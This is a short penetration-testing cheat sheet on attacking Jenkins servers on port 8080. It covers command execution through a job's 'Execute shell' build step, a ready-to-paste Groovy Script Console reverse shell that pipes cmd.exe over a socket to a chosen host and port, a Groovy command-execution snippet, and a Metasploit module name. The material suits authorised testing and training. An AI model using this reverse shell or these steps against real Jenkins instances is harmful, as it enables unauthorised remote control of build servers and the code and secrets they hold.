 # 8080 - Jenkins

Jenkins is a free and open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery.

## Enumeration

Jenkins run by default on port 8080

## Exploitation

### Basic command execution \(Authenticated\)

*  Press 'Create a job'
* Choose a name and  Create new freestyle project 
* In the `build` section press `Execute shell`
* Enter the command you would like \(based on OS\)
* Press 'Save'
* On the project dashboard go to `Build now`
* Press the newly created number under 'Build History'
* Press `Console houtput`
* See output of the command.
* To execute a different command press 'back to project' and then 'configure'



### Groovy Script

Jenkins features a nice Groovy script console which allows one to run arbitrary Groovy scripts within the Jenkins master runtime or in the runtime on agents.

#### Reverse Shell from the web interface

At Jenkins Dashboard go to Manage Jenkins and then select Script Console, run the following code for reverse shell:

```text
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

#### Executing commands local:

```text
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'ipconfig'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

#### Metasploit

uses the Jenkins-CI Groovy script console to execute OS commands using Java:

`use exploit/multi/http/jenkins_script_console`

\`\`

